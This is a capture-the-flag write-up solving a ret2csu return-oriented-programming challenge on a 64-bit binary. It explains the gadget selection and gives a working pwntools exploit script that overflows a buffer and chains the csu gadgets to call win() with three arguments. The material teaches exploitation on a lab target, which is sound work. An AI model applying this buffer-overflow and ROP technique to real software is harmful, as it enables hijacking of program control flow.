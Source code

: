 Reference: https://guyinatuxedo.github.io/18-ret2_csu_dl/ropemporium_ret2csu/index.html
<br>
64 bit binary:
<br>
![](./1.png)
<br>
Ghidra jump to win() with 3 arguments to display flag.txt
<br>
![](./2.png)
![](./11.png)
<br>
rdi = `0xdeadbeef`, rsi =`0xcafebabecafebabe`, rdx = `0xd00df00dd00df00d`
<br>
![](./3.png)
<br>
Finding gadgets:
<br>
![](./7.png)
![](./4.png)
<br>
There is no `pop rdx` so lets try and find something that can change rdx.
<br>
![](./5.png)
<br>
This is in AT&T syntax hence, we can move r15 to rdx as well as move r14 to rsi, r13d to edi before calling (r12+rbx+8), then add 1 to rbx, rbx must = rbp before we return
<br>
![](./6.png)
<br>
Gadget 1:
```
  4012a8:       4c 89 fa                mov    %r15,%rdx
  4012ab:       4c 89 f6                mov    %r14,%rsi
  4012ae:       44 89 ef                mov    %r13d,%edi
  4012b1:       41 ff 14 dc             callq  *(%r12,%rbx,8)
```
Gadget 2:
```
  4012c2:       5b                      pop    %rbx
  4012c3:       5d                      pop    %rbp
  4012c4:       41 5c                   pop    %r12
  4012c6:       41 5d                   pop    %r13
  4012c8:       41 5e                   pop    %r14
  4012ca:       41 5f                   pop    %r15
  4012cc:       c3                      retq  
```
For the function we are calling we will call `_init`. The reason why I call this function instead of other function, is this one doesn't crash when I call it in this context. Let's find a pointer to it's address.` callq  *(%r12,%rbx,8)`
<br>
![](./8.png)
![](./10.png)
<br>
Building our payload:
```
from pwn import *

args = process("./args")
gadget1 = p64(0x4012a8)
gadget2 = p64(0x4012c2)
_init = p64(0x403e28)
win = p64(0x4011b2)
arg1 = p64(0x90909090deadbeef) #r13d to edi
arg2 = p64(0xcafebabecafebabe)
arg3 = p64(0xd00df00dd00df00d)

payload = "\x90" * 136 # vuln [128] + overwrite rsp
payload += gadget2
#cmp %rbx,%rbp
payload += p64(0) # set rbx to 0(+1)
payload += p64(1) # set rbp to 1 
payload += _init
payload += arg1
payload += arg2
payload += arg3
payload += gadget1
payload += p64(0) * 7 #rsp+8,rbx,rbp,r12,r13,r14,15
payload += win
#with open("./out.txt", "wb") as out:
# out.write(payload)
args.sendline(payload)
print(args.recv())
```
